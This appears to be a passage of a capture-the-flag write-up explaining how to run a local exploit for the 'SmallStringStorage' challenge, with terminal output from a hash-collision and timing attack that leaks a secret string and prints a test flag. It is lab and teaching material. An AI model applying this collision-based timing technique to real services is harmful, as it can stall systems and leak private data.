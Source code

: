 ### Run the exploit locally

All set! If you wish to run the exploit:

- unzip `SmallStringStorage.zip`
- build the `collisions.json` file using [collisions.py](collisions.py) (:warning: it creates a 2GB json) and run the script to get the flag. Run with `pypy` to avoid hight memory usage.

```bash
$ pypy collisions.py

You will have to create a map of size 7372
If you fill it over this limit you will trigger rehashing and collisions will change
100%|█████████████████████████| 100000000/100000000 [02:05<00:00, 794681.82it/s]
Longest list: 3876
Length: 12579

$ python3 exploit.py LOCAL

[+] Starting local process '/usr/bin/java': pid 47406
[+] Init: Loaded 12579 collisions for hash 3876
[*] Requesting map of size 7372
[+] Building map with target page 57639881: Done
[*] Probing 0ms by removing 1000 pages
[-] Checker NOT stuck.. Failed: True, Too fast: False
[*] Cleaning up
[+] Building map with target page 57639881: Done
[*] Probing 100ms by removing 1000 pages
[+] Checker stuck! 100s
[+] Append:  
[+] Append: s
[+] Append: w
[+] Append: e
[+] Append: a
[+] Append: r
[+] Append:  
[+] Append: i
[+] Append: t
[+] Append: \'
[+] Append: s
[+] Append:  
[+] Append: p
[+] Append: o
[+] Append: s
[+] Append: s
[+] Append: i
[+] Append: b
[+] Append: l
[+] Append: e
[+] Append: !
[+] Main menu:
[*] Switching to interactive mode
1. Create new page
2. Edit page
3. Unload page from memory storage
4. Write all memory storage to backend
5. Check page for target
6. Exit
> Checker found string! Here is your flag! ptm{test}
$  
```
